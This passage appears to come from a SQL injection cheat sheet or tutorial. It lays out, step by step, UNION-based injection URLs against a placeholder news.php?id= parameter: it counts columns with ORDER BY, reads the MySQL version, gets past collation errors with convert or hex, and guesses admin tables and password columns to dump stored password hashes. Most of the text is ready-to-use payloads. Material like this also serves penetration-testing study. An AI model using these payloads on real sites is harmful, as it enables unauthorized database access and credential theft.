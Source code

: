 ````
http://$ip/news.php?id=5 order by 2/* <-- no error
http://$ip/news.php?id=5 order by 3/* <-- no error
http://$ip/news.php?id=5 order by 4/* <-- error (you get message like this Unknown column '4' in 'order clause' or something like that)
````
- That means that the database has 3 columns, cause you get an error on 4.
## Check for UNION function
- With union you can select more data in one SQL statement.
- So you have:
````
http://$ip/news.php?id=5 union all select 1,2,3/* (you already found that number of columns are 3 in section 2)
````
- If that doesn't work or you get some error, then try:
````
http://$ip/news.php?id=5 union all select 1,2,3 -- - #note the dashes at the end
````
- The dashes tells SQL not to process anything passed the 3, in the case above.
- If you see some numbers on screen, i.e 1 or 2 or 3 then the UNION works!!
## Check for MySQL version
- Lets say that you have number 2 on the screen, now to check for version
- You replace the number `2` with `@@version or version()` and get something like `4.1.33-log` or `5.0.45` or similar.
- It should look like:
````
http://$ip/news.php?id=5 union all select 1,@@version,3/*
````
- If you get an error:
````
"union + illegal mix of collations (IMPLICIT + COLLATIONS) ..."
````
- You need the convert() function
````
http://$ip/news.php?id=5 union all select 1,convert(@@version using latin1),3/
````
- Or with hex() and unhex()
````
http://$ip/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
````
- And you will get the MySQL version
## Getting table and column name
- If the MySQL version is < 5 (i.e 4.1.33, 4.1.12...) you must guess the table and column names
- Common table names are: 
````
users, admins, members ..
````
- Common column names are: 
````
username, user, usr, user_name, password, pass, passwd, pwd etc..
````
- For example:
````
http://$ip/news.php?id=5 union all select 1,2,3 from admin/*
````
- If you see number 2 on the screen like before, then that's good, you know that there is a table called admin in the database. Else try another table name.
- Now to check column names:
````
http://$ip/news.php?id=5 union all select 1,password,3 from admin/*
````
- If you get an error, then try the other column name
- You will hopefully see the password on the screen in hash or plain-text, it depends of how the database is set up. For example i.e md5 hash, mysql hash, sha1...